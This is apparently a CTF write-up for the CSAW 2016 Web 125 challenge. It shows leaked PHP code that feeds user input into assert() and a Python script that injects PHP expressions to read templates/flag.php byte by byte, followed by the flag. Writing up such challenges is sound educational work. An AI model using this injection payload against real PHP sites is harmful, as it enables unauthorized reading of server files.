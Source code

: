 ```yaml
---
layout: post
title:  "CSAW CTF 16 Web 125 writeup"
image: ''
date:   2016-09-16 00:06:31
tags:
- Assert(), CSAW
description: 'Web 125 - Assert() Vulnerability'
categories:
- CSAW CTF, CTF, Assert Vulnerability
---
```


In this challenge, we were given a web page showing `Welcome to my website! I wrote it myself from scratch!.` Next was to find the vulnerability in the page.

```
Challenge URL: http://web.chal.csaw.io:8000/
```

Obviously the first thing was to look at the source code and found something commented out
`<br /><!--<li ><a href="?page=flag">My secrets</a></li>`

My next aim was to get that using LFI, but it failed as they were filtering off and produced a message Detected hacking attempt! I was sure that there was a `git` page as he had mentioned it in the about page which would get me the full source code. I was successfully able to find the source code which was

```
#A part of the source code
<?php

if (isset($_GET['page'])) {
$page = $_GET['page'];
} else {
$page = "home";
}

$file = "templates/" . $page . ".php";

// I heard '..' is dangerous!
assert("strpos('$file', '..') === false") or die("Detected hacking attempt!");

// TODO: Make this look nice
assert("file_exists('$file')") or die("That file doesn't exist!");

?>
```

I was able to understand that it was using `assert()` which was vulnerable to LFI. I wrote a little script:

```
<br />
#Author Gokul Krishna
#teambi0s

import base64
import string
import requests

url = "http://web.chal.csaw.io:8000/"

def check(payload):
r = requests.get(url, params={'page':payload})
return "Detected" not in r.text
base = '\', "asdf") === false && %s && strpos(\'1'

def get_len(path):
for i in range(2048):
print "Length upto %d" % i
s = 'strlen(file_get_contents("%s")) == %d' % (path, i)
if check(base % s):
print "Found Length %d" % i
return i

def get_str(path):
length = get_len(path)
s = "<?php"
while len(s) < length:
for c in string.printable:
t_s = s + c
payload = 'substr(file_get_contents("%s"), 0, %d) == base64_decode("%s")' % (path, len(t_s), base64.b64encode(t_s))
if check(base % payload):
s += c
print c
print s.replace("\n", " ")
return s

print get_str("templates/flag.php");
```

Flag is: `flag{3vald_@ss3rt_1s_best_a$$ert}`
